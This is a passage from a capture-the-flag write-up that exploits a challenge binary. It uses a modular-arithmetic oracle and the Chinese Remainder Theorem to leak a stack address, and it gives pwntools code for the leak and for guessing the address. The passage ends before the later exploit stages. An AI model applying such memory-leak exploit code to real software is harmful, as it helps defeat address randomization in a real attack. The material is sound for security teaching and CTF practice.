 OK, it seems that the function is letting you to view the parameter passed to it mod an user-controlled number, with certain restrictions. First, the number can only be viewed under a mod a total of 6 times. Secondly, the number can only be viewed mod a number between 1 and 128.

So... seems that we can use this functionality to leak a stack address, namely, the address that was passed to `dorng`. If we take the address mod 6 numbers, we can use CRT to solve for the address mod the greatest common denominator of the numbers.

Since we want to maximize the modulo of our final result, we would like this GCD to be  as big as possible. One way to do this (although I'm not sure if this is the most optimal way) is to just take the number mod the 6 largest primes less than 128. We write some code to do this:

```python
from pwn import *
from sympy.ntheory.modular import crt

context.arch = "amd64"
elf = ELF("./inkaphobia")
libc = ELF("./libc.so.6")
rop = ROP(elf)
conn = elf.process()

primes = [101, 103, 107, 109, 113, 127]

def get_remainder(num):
  conn.recvuntil(":")
  conn.sendline(str(num))
  conn.recvuntil(":")
  rem = int(conn.recvline().strip())
  log.info(f"addr ≡ {rem} (mod {num})")
  return rem

conn.recvline()
remainders = []
for prime in primes:
  remainders.append(get_remainder(prime))

res = crt(primes, remainders)
```

However, this does not give us quite enough information to deduce the address, as the modulo is smaller than `0xffffffffffffffff`. However, we know that stack addresses on a 64-bit system will be around `0x7ffff0000000`, so if we add our modulo repeatedly to our result from CRT until we get a value in this range, we can have a leak of the stack address that works most of the time.

So, we add this snippet of code to deduce a likely candidate for the stack address:

```python
buf_addr = [res[0]+res[1]*n for n in range(1, 1000) if hex(res[0]+res[1]*n)[0:4]=="0x7f" and len(hex(res[0]+res[1]*n))==14][0]
```

Well, now we're out of the `dorng()` function with a stack leak. Now what?

Back to the `main()` function:
